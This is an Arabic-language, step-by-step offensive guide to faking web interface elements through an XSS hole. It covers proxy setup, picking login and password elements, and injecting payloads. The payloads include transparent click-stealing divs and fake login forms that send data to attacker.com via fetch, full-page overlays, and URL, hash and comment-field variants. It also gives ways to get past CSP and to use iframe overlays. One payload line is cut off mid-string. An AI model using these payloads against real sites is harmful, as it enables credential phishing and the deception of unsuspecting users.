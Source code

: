 
## الخطوات العملية للحقن المستخدمة لتزييف واجهة المستخدم Camouflage
1. **إعداد البيئة**:
   - استخدم متصفحًا مع أداة وكيل (مثل **Burp Suite** أو **OWASP ZAP**) لمراقبة الطلبات الصادرة الناتجة عن تفاعل المستخدم.
   - أعد خادمًا خارجيًا (مثل خادم Python بسيط أو خدمة مثل `ngrok`) لتسجيل البيانات أو الإجراءات الناتجة عن النقرات أو إدخال البيانات.
   - افتح أدوات المطورين في المتصفح (F12) لمراقبة وحدة التحكم (Console)، الشبكة (Network)، وتغييرات DOM.
   - تأكد من وجود ثغرة XSS ناجحة (مثل تنفيذ `<script>alert('XSS')</script>`).

2. **تحديد العناصر المستهدفة**:
   - حدد العناصر في الصفحة التي يمكن تزييفها أو التلاعب بها، مثل:
     - أزرار (مثل "تسجيل الدخول" أو "حذف الحساب").
     - نماذج (مثل حقول إدخال كلمة المرور أو البريد الإلكتروني).
     - روابط (مثل "إعادة تعيين كلمة المرور").
     - محتوى الصفحة (مثل رسائل الخطأ أو الإشعارات).
   - افحص شيفرة الصفحة (عبر أدوات المطورين) لتحديد معرفات العناصر (IDs)، الفئات (classes)، أو الأنماط (styles) التي يمكن استهدافها.

3. **إدخال الحقن**:
   - أدخل شيفرة JavaScript في نقطة الإدخال العرضة لـ XSS (مثل معلمة URL أو حقل تعليق) لتعديل واجهة المستخدم.
   - صمم الحقنة لتزييف العناصر أو خداع المستخدم، مثل:
     - إنشاء زر شفاف فوق زر شرعي: `<div style="position:absolute;opacity:0.1" onclick="fetch('http://attacker.com/log')">اضغط هنا</div>`
     - إنشاء نموذج مزيف: `<form action="http://attacker.com/log"><input type="text" name="username"><input type="submit"></form>`
     - تغطية الصفحة: `<div style="position:fixed;top:0;left:0;width:100%;height:100%;background:white">صفحة تسجيل الدخول</div>`
   - جرب الحقن في سياقات مختلفة:
     - معلمات URL: `https://example.com/?search=<script>document.body.innerHTML='<div onclick="alert(1)">اض     - حقول نماذج: أدخل `<div style="position:absolute;opacity:0" onclick="fetch('http://attacker.com/log')">اضغط هنا</div>` في تعليق.
     - الهاش: `https://example.com/#<script>document.getElementById('login-btn').onclick=() => fetch('http://attacker.com/log')</script>`

4. **مراقبة الاستجابات**:
   - تحقق من تفاعل المستخدم مع العناصر المزيفة:
     - **نجاح (True)**: المستخدم ينقر على عنصر ضار، يُرسل بيانات إلى خادمك، أو يتم تنفيذ إجراء غير مقصود (مثل إرسال نموذج أو تغيير إعدادات).
     - **فشل (False)**: لا يتفاعل المستخدم، أو تمنع الحماية (مثل `X-Frame-Options` أو CSP) التغييرات.
   - استخدم أدوات المطورين (F12) لمراقبة طلبات الشبكة الصادرة (Network tab) أو تغييرات DOM.
   - تحقق من سجلات خادمك الخارجي لتأكيد استلام البيانات أو الإجراءات.

5. **تجربة تقنيات تزييف مختلفة**:
   - إذا فشلت الحقنة (مثل منع التغييرات بسبب CSP)، جرب تقنيات أخرى:
     - تغيير الأنماط: تعديل `opacity`، `z-index`، أو `position` لإخفاء/إظهار العناصر.
     - إنشاء iframes: إدراج صفحة شرعية في إطار مخفي مع زر ضار فوقه.
     - محاكاة واجهات شائعة: إنشاء نموذج تسجيل دخول يشبه واجهة الموقع.
   - اختبر نقاط إدخال متعددة (مثل حقول نماذج أخرى أو معلمات URL مختلفة).
   - جرب حقنًا تتطلب تفاعلًا (مثل النقر أو إدخال نص) لزيادة احتمالية التفاعل.
